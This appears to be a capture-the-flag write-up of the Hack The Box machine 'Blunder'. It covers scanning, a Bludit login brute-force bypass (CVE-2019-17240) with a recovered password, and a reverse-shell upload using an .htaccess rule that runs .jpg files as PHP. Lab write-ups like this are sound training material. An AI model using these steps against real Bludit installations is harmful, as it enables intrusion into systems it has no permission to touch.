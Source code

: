 # Hack the Box - Blunder

# Reconnaissance

## NMAP
```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.191 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.191
Host is up (0.19s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE  SERVICE
21/tcp closed ftp
80/tcp open   http
Device type: general purpose|storage-misc|WAP
Running (JUST GUESSING): Linux 5.X|4.X|2.6.X|3.X (98%), HP embedded (91%), Ubiquiti AirOS 5.X (89%), Ubiquiti embedded (89%)
OS CPE: cpe:/o:linux:linux_kernel:5.0 cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:2.6.32 cpe:/o:linux:linux_kernel:3 cpe:/o:ubnt:airos:5.2.6 cpe:/h:ubnt:airmax_nanostation
Aggressive OS guesses: Linux 5.0 (98%), Linux 5.4 (93%), Linux 5.0 - 5.4 (93%), HP P2000 G3 NAS device (91%), Linux 4.15 - 5.6 (91%), Linux 5.3 - 5.4 (90%), Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Linux 5.1 (90%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%)
No exact OS matches for host (test conditions non-ideal).

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 134.49 seconds
```

```CSS
▶ nmap -sC -sV -p 21,80 10.10.10.191 -oN services.nmap

Nmap scan report for 10.10.10.191
Host is up (0.18s latency).

PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Blunder
|_http-title: Blunder | A blunder of interesting facts

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.23 seconds
```

---

## HTTP 80
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f70628d0-2b79-45bb-af4e-e683b063aa20)

---

## Content Discovery

```CSS
▶ gobuster dir --url http://10.10.10.191 --wordlist /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt --threads 20
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4075b582-c7ff-44a4-8767-fe978f218cc9)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ae1ef991-a735-481f-ac4e-fbac773d364d)
  - `Bludit` admin login.

```CSS
▶ gobuster dir --url http://10.10.10.191 --wordlist /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --threads 20
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c1979746-2805-426a-9824-c5f46d09a09b)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/3fe67c23-2588-4b30-82d4-0038d697ee17)
  - Probably the CMS is running an older version.
  - Potential username `fergus`.

---

## Brute-Force Credentials
  - A potential username `fergus` is found. Attempt to brute-force the password of this user for the CMS.

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5486ce91-06ec-466f-b912-f9d4066152f0)
  - IP address gets banned after a few tries to brute-force the password.

### Brute-Force Mitigation Bypass
  - Search for bypassing brute-force protection.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c7a9919b-9581-433c-b2e9-8670b9fb257c)

  - Google search.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d7d3f417-9f2d-42ab-910e-7430ef76d1fb)
  - Bludit Brute-force Mitigation Bypass (CVE-2019-17240)

  - https://github.com/ColdFusionX/CVE-2019-17240_Bludit-BF-Bypass
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/1b80229c-69f6-4496-975e-6bf906725572)

```CSS
▶ python exploit.py -l http://10.10.10.191/admin/login.php -u users.txt -p passwords.txt
```
  - Valid password `RolandDeschain` found for the user `fergus`.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8795423e-82bb-40fe-b9d5-c0caeb7668de)

Login with the credentials to the Bludit dashboard.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/46f720ab-ae30-4bb4-a20a-f1f07d6ddf4c)

- Login successful to Dashboard.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/6fb1a617-4f08-4d12-a236-b860b18cbea5)

---

  - Search for exploits.
  - Bludit RCE - https://github.com/bludit/bludit/issues/1081

  - Upload a php reverse shell to the target machine.
```CSS
▶ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```
  - Change the IP address and Port in the shell code.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f91738d7-102a-4418-b21f-3f3eddac9b06)
  - Change the extension of the shell file from `.php` to `.jpg`.
  - Upload the shell and modify the `UUID` by intercepting the upload request in burpsuite.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/dfcd390f-c71c-4994-8469-4a26e2c0d8cd)
  - Also upload the `htaccess` file to make the `jpg` executable as `php`.

Contents of `htaccess` file.
```CSS
RewriteEngine off
AddType application/x-httpd-php .jpg
```

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/dea6a20e-07fa-490d-976b-9a3217c9ac52)
  - Browse to the location of the uploaded shell.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/b470b90a-15ac-4c31-b032-f7802aafd02f)
  - Start a `netcat` listener.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/53d65f09-2a0b-4c90-b6e0-1a3cfec4bc76)

  - Uploading `linpeas.sh`
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/abaeecce-bd2b-454c-b2f8-5d4baaf153c4)
